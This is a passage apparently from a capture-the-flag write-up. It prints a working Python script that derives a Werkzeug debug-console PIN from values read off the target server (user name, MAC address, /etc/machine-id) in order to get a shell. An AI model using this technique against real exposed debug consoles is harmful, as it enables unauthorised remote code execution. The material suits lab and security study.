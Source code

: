 This is the console that we want to access to get a shell, and if we look for exploits to get the password we find a script online and theres some information that we need to get from the server in order to generate the password. 

```py
import hashlib                                                                                                                                                                              
from itertools import chain
probably_public_bits = [
    'www-data',# /proc/self/environ
    'flask.app',# modname
    'wsgi_app',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052353554',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'ed5b159560f54721827644bc9b220d00superpass.service'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9] 

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
